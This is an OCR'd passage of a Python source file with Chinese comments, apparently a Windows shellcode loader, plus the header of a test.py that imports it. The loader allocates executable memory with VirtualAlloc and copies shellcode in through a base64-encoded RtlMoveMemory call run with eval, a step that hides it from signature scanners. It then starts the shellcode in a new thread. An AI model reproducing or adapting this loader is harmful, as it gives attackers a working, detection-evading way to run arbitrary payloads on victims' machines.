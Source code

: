shellcode **=** bytearray**(**shellcode**)**

*\# 设置VirtualAlloc返回类型为ctypes.c_uint64*

ctypes**.**windll**.**kernel32**.**VirtualAlloc**.**restype **=**
ctypes**.**c_uint64

*\# 申请内存*

ptr **=**
ctypes**.**windll**.**kernel32**.**VirtualAlloc**(**ctypes**.**c_int**(0),**
ctypes**.**c_int**(**len**(**shellcode**)),** ctypes**.**c_int**(0x3000),**
ctypes**.**c_int**(0x40))**

*\# 放入shellcode*

buf **= (**ctypes**.**c_char **\***
len**(**shellcode**)).**from_buffer**(**shellcode**)**

string **=**
"""Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX3VpbnQ2NChwdHIpLCBidWYsIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSkp"""

eval**(**base64**.**b64decode**(**string**))**

*\# 创建一个线程从shellcode防止位置首地址开始执行*

handle **=** ctypes**.**windll**.**kernel32**.**CreateThread**(**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**c_uint64**(**ptr**),**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**pointer**(**ctypes**.**c_int**(0))**

**)**

*\# 等待上面创建的线程运行完*

ctypes**.**windll**.**kernel32**.**WaitForSingleObject**(**ctypes**.**c_int**(**handle**),**ctypes**.**c_int**(-1))**

**if** \__name_\_ **==** '__main__'**:**

shell**()**

test.py

*\# -\*- encoding: utf-8 -\*-*

*\# Time : 2021/06/17 17:00:27*

*\# Author: crow*

**import** ctypes

**from** py_shellcode **import** shell

